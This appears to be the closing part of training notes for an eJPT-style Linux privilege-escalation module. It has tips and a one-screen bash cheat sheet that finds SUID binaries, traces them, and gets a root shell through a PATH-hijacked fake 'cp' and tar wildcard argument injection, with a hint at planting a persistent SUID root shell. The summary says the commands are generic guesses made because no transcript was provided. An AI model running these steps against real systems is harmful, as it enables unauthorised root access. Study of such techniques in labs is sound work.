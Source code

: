 ## Practical tips
- Unusual SUID binaries in /usr/local/bin and /opt are prime targets.
- ltrace is great to quickly find system() strings; strace confirms exact execve paths.
- If PATH hijack fails, check strace: if absolute paths are used, try other angles (config injection, wildcard, writable script in called chain).
- Always verify write permissions for directories in the execution flow.
- Use /bin/sh -p to preserve effective UID in SUID contexts.
- Keep artifacts in /tmp and clean up after testing.

## Minimal cheat sheet (one-screen flow)
```bash
# 1) Find SUID binaries
find / -perm -4000 -type f 2>/dev/null | sort

# 2) Pick suspicious binary and inspect
BIN="/usr/local/bin/backup"   # example
strings -a "$BIN" | less
ltrace -s 2048 -o /tmp/ltrace.log "$BIN"
strace -f -o /tmp/strace.log "$BIN"
grep -iE 'system|execve' /tmp/{ltrace,strace}.log

# 3) PATH hijack (if unqualified cmd seen, e.g., cp)
WRK="/tmp/.pwn"; mkdir -p "$WRK"
cat > "$WRK/cp" << 'EOF'
#!/bin/sh
exec /bin/sh -p
EOF
chmod +x "$WRK/cp"
export PATH="$WRK:$PATH"
"$BIN"

# 4) Tar wildcard (only if program runs "tar ... *" in a writable dir)
cd /path/that/gets/tarred
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
echo -e '#!/bin/sh\nexec /bin/sh -p <&2 >&2' > shell.sh; chmod +x shell.sh
"$BIN"

# 5) Post-exploit (optional)
# gcc rootshell, chown root:root, chmod 4755
```

## Summary
This module demonstrates Linux privilege escalation by exploiting a vulnerable program, focusing on unsafe usage patterns in SUID-root binaries. The core workflow is to enumerate SUID programs, analyze their behavior with strings/ltrace/strace, and exploit issues such as unqualified command execution via PATH hijacking or tar wildcard injection. With a successful trigger, you obtain a root shell (using /bin/sh -p), after which you can stabilize access as permitted. Because no transcript was provided, commands and paths above are based on common eJPT-style scenarios—adjust them to your target’s actual binaries and traces.
